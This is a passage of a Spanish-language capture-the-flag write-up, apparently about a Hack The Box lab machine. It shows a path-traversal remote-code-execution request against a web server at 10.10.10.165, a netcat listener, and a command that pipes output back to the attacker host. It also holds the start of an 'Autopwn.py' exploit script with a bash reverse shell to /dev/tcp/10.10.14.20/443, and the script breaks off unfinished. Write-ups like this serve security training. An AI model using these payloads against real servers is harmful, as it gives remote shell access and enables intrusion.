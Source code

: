 Analizando el script con 
```bash
 cat 
```
, vemos como se uza el exploit. Intentamos reproducir los pasos antes de crearnos nuestro
proprio script.

1. En una terminal

    ```bash
    nc -nlvp 443
    ```

1. En otra terminal

    ```bash
    telnet 10.10.10.165 80
    POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
    Content-Length: 1

    whoami | nc 10.10.14.20 443
    ```

Se ve 
```bash
 www-data 
```
 en la primera terminal.

Ya podemos crearnos el script.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Autopwn.py {-}

```python
#!/usr/bin/python3

import requests
import sys
import signal
import pdb
import threading
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./bin/sh"
lport = 443

def makeRequest():

    data_post = {
        b'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':
```